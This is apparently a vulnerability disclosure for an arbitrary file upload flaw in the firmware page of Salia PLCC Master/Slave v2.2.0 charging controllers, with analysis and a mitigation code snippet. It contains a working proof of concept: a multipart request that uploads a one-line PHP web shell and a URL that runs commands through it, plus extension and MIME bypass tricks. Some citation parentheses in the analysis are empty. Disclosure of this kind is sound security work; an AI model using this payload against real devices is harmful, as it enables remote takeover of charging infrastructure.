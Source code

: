 # Salia PLCC Master/Slave v2.2.0 has a Arbitrary File Upload Vulnerability

### Description

Salia PLCC Master/Slave v2.2.0 has a Arbitrary File Upload vulnerability in the file /firmware.php ,anyone can upload a file to getshell ,which can lead to **Arbitrary Remote Command Execution**

### Vender

- The latest fireware v2.2.0 download link

  http://salia.echarge.de/firmware/

  http://salia.echarge.de/firmware/firmware_2.2.0.image

![image-20250528104625114](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505281046263.png)

### Step

- open the web-ui

![image-20250528103316575](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505281033726.png)

- the fireware upload area can upload any file.

![image-20250528103409980](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505281034107.png)

### POC

```http
POST /firmware.php HTTP/1.1
Host: XXXX
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="media"; filename="malicious.php"
Content-Type: application/octet-stream

<?php @system($_GET["cmd"]);?>
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```



Then 

```
http://target.com/uploads/malicious.php?cmd=id
```



![image-20250528104057608](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505281040740.png)



### Analysis

#### Vulnerability Analysis: Arbitrary File Upload in PHP

The vulnerable code in this file is located in the file upload handling section, specifically:

`/firmware.php`

```php
if($_SERVER['REQUEST_METHOD']=='POST'){
    $uploadManager=new \UploadManager\Upload('media');
    $chunks=$uploadManager->upload('uploads');
    if(!empty($chunks)){
        foreach($chunks as $chunk){
            $fw_install = True;
            $update_ready = True;
            $update_filename = $chunk->getNameWithExtension();
        }
    }
}
```



1. **Vulnerability Description**
    The code lacks proper file validation, allowing attackers to upload malicious files (e.g., `.php` scripts) due to:
   - **No file extension/MIME validation** (): The `UploadManager` class processes files without checking extensions or MIME types (e.g., `image/jpeg` vs. `application/x-php`).
   - **No content verification** (): Files like `malicious.php` disguised as `image.jpg` bypass checks by embedding PHP code (e.g., `<?php system($_GET["cmd"]); ?>`).
   - **Unrestricted storage** (): Uploaded files are saved in `/uploads/` without disabling script execution (e.g., missing `.htaccess` rules like `php_flag engine off`).
2. **Proof of Concept (PoC)**
    Attackers exploit this by:
   - **Fake extensions**: Uploading `shell.php.jpg` or using null bytes (`shell.php%00.jpg`) ().
   - **MIME spoofing**: Setting `Content-Type: image/jpeg` for a PHP file ().
   - **Direct execution**: Accessing `http://target.com/uploads/malicious.php?cmd=id` to execute commands ().
3. **Impact**
   - **Remote Code Execution (RCE)**: Full server compromise ().
   - **Data breaches**: Access to sensitive files (e.g., `/etc/passwd`) ().
   - **Persistence**: Uploaded backdoors enable long-term access ().
4. **Mitigation**
   - **Whitelist validation**: Allow only `.bin`, `.zip` for firmware ().
   - **Content checks**: Use `getimagesize()` or file signatures ().
   - **Secure storage**: Store files outside webroot or disable execution ().
   - **Randomize filenames**: Use `uniqid()` to prevent path prediction ().

### Code-Level Fix Example

```php
// Secure file upload snippet
$allowed_ext = ['bin', 'zip'];
$file_ext = strtolower(pathinfo($_FILES['media']['name'], PATHINFO_EXTENSION));
if (!in_array($file_ext, $allowed_ext)) {
    die("Invalid file type.");
}
$new_filename = uniqid() . '.' . $file_ext;
move_uploaded_file($_FILES['media']['tmp_name'], '/secure/storage/' . $new_filename);
```

